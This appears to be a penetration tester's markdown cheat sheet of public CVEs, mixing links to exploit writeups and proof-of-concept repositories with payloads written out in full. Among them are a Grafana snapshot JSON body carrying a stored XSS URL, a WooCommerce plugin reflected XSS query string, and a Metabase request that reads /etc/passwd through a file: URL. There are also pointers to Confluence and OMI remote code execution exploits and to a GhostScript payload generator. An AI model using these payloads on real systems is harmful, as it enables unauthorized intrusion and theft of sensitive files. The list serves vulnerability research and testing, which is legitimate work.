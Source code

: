 ## CVE-2020-11022/CVE-2020-11023

https://vulnerabledoma.in/jquery_htmlPrefilter_xss.html

## CVE-2020-11110
https://ctf-writeup.revers3c.com/challenges/web/CVE-2020-11110/index.html

* version : Grafana v6.2.5

* authentication : v6.2.5 not required to be authenticated

* send post request to /api/snapshots with the following json body
```
{"dashboard":{"annotations":{"list":[{"name":"Annotations & Alerts","enable":true,"iconColor":"rgba(0, 211, 255, 1)","type":"dashboard","builtIn":1,"hide":true}]},"editable":true,"gnetId":null,"graphTooltip":0,"id":null,"links":[],"panels":[],"schemaVersion":18,"snapshot":{"originalUrl":"javascript:alert('Revers3c')","timestamp":"2020-03-30T01:24:44.529Z"},"style":"dark","tags":[],"templating":{"list":[]},"time":{"from":null,"to":"2020-03-30T01:24:53.549Z","raw":{"from":"6h","to":"now"}},"timepicker":{"refresh_intervals":["5s","10s","30s","1m","5m","15m","30m","1h","2h","1d"],"time_options":["5m","15m","1h","6h","12h","24h","2d","7d","30d"]},"timezone":"","title":"Dashboard","uid":null,"version":0},"name":"Dashboard","expires":0}
```





## CVE-2021-24169
WordPress Plugin Advanced Order Export For WooCommerce 3.1.7 - Reflected Cross-Site Scripting (XSS)

```
wp-admin/admin.php?page=wc-order-export&tab=</script><script>alert(1)</script>
```

## CVE-2021-40875 
Improper Access Control in Gurock TestRail versions ≤ 7.2.0.3014 results in sensitive file exposure

* /files.md5 file on the client side of a Gurock TestRail application, disclosing a full list of application files and the corresponding file paths. The corresponding file paths can be tested, and in some cases, result in the disclosure hardcoded credentials, API keys, or other sensitive data.


## CVE-2021-26084 
Remote Code Execution on Confluence Servers

https://github.com/httpvoid/writeups/blob/main/Confluence-RCE.md

## CVE-2021–24563 Unauthenticated Stored XSS [Frontend Uploader <= 1.3.2]
https://medium.com/pentesternepal/cve-2021-24563-unauthenticated-stored-xss-frontend-uploader-1-3-2-8522e0890833


## CVE-2021-38647 is an unauthenticated RCE vulnerability effecting the OMI agent as root.
https://github.com/horizon3ai/CVE-2021-38647

## Metabase 敏感信息泄露 CVE-2021-41277
```
GET /api/geojson?url=file:/etc/passwd HTTP/1.1
Host:
```








## Full Disclosed reports
https://seclists.org/fulldisclosure/




## CVE Finder
https://git-cve.system00-sec.com/?cve=CVE-2021-1056

## RCE 0-day for GhostScript 9.50 - Payload generator
https://github.com/duc-nt/RCE-0-day-for-GhostScript-9.50

## (CVE-2021-41765 | CVE-2021-41950 | CVE-2021-41951) 
https://www.horizon3.ai/multiple-vulnerabilities-in-resourcespace/

## Tool that helps to embed a PostScript file into a PDF in a way that GhostScript will run the PostScript code during the PDF processing
https://github.com/neex/ghostinthepdf



